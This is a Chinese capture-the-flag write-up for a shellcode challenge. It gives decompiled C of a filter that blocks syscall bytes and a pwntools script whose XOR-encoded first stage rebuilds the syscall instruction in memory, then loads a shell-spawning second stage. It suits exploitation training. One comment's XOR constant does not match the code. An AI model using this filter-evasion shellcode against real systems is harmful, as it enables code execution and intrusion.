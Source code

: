 ```c
  dest = (char *)mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Input your Code : ");
  v4 = read(0, buf, 0x1000uLL);
  for ( i = 0; i < v4 - 1; ++i )
  {
    if ( *((_BYTE *)buf + i) == 15 && *((_BYTE *)buf + i + 1) == 5
      || *((_BYTE *)buf + i) == 15 && *((_BYTE *)buf + i + 1) == 52 )
    {
      puts("ERROR \\\\ Unavailable ! : syscall/sysenter/int 0x80");
      exit(1);
    }
  }
  strcpy(dest, (const char *)buf);
  exec(dest);
  exit(1);
}
```
从反编译的代码中看到程序对输入的shellcode做了限制：不能够出现syscall;sysenter;int 0x80;<br>
同时由于strcpy，shellcode中不能出现0x00，否则会导致shellcode被截断，不能完整的被copy到dest<br>
思路：xor异或加密后在内存中解密
```python
from pwn import *

context(arch='amd64', os='linux',log_level='debug')

local = 1
if local == 1:
    io = process("./pwn")
    gdb.attach(io, "b exec")
else:
    io = remote()

shellcode = asm('''
mov rsp,rdi; //之前rsp为0x0，现在给rsp一个正常地址，使得之后的execve传参能够实现
mov rax,rdi; //这里是为了内存中搓syscall做准备
mov rsi,rdi; //设置read函数参数
add sp, 800; //随便将rsp设置到一个可以当作栈的位置
mov dx, 0xffff; //设置read函数参数
mov cx, 0x454f;
xor cx, 0x4040; //0x454f xor 0x404a = 0x0f05，自此cx寄存器中存储了syscall机器码
add rax, 0x40; //设置偏移
mov [rax],cx; //将syscall放入内存中
xor rdi,rdi; //设置read函数参数
xor rax,rax;//read系统调用号 = 0
''')
shellcode = shellcode.ljust(0x40, asm('nop'))
io.send(shellcode)
shellcode2 = asm(shellcraft.sh())
pause()
io.send(b''.ljust(0x42, asm('nop')) + shellcode2)
io.interactive()
```
踩过的坑：立即数设置要合法<br>
《ARM体系结构与编程》一书中对立即数有这样的描述：每个立即数由一个8位的常数循环右移偶数位得到。
一个32位的常数，只有能够通过上面构造方法得到的才是合法的立即数。
之所以要特意设置rsp，是因为exec函数执行过程中，会将rsp，rbp等都设为0，即销毁堆栈<br>
shellcode中最关键的是借助cx寄存器生成syscall的一段，其他部分都是为了正常执行代码所做的寄存器设置
<br>
其他做法：
- 由于检测时只检测相邻两个字节是否为对应指令，所以我们可以分别使用add, mov等指令在内存中拼凑，而不使用异或（其实思路一样）
- 可以不使用reread，而是直接尝试execve
